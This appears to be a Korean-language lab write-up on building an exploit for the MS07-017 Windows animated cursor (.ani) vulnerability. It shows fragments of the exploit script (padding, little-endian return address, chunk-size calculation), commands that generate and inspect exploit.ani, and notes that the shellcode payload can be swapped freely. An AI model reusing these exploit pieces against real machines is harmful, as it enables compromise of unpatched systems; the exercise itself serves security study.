 ![a6](https://user-images.githubusercontent.com/59737252/207896181-a74ea8ce-e6e7-40b9-8dfd-28a769dd8d3f.png)

<br>

### 2. 코드 수정

04.ms07017_exploit_adduser.py 코드 부분 수정

```python
...
padding2ret = "\x00" * 80 
ret = "\x74\x0c\x71\x7d" #선택 했던 주소를 리틀 엔디안으로 변경
padding2edi = "\x00" * 20 
...

```

<br>

### 3. 결과 확인

```shell
python2 04.ms07017_exploit_adduser.py

hexdump -C exploit.ani
```

![a7](https://user-images.githubusercontent.com/59737252/207898005-3c42585f-e270-4964-be32-5a8978644b31.png)

<br>

---

## Q4

익스플로잇 코드의 페이로드를 자유롭게 바꾸어 공격환경을 구현할 수 있는가?

Q3에서 선택하였던 주소를 이어서 사용 (ret 부분 변경 필요)

05.ms07017_exploit_fixpayload.py를 사용

### 0. 코드 설명

![a10](https://user-images.githubusercontent.com/59737252/207912677-b5336796-a96b-4950-8b62-d34ae2be68e6.png)

```python
pack("<l", len(shellcode + padding2ret + ret + padding2edi))
```

쉘코드 길이, 패딩 길이, retn 길이, 두번째 패딩의 길이라는 걸 알아둬<br>
앞에 있는 len함수가 알아서 계산해주고 청크 사이즈에 포함이 되기 때문에<br>
파이썬 쉘코드를 마음껏 조작해도 사이즈 관련해서 문제될 것이 없음!<br>

<br>

```python
shellcode_bytearrarydata = bytearray(shellcode)
```
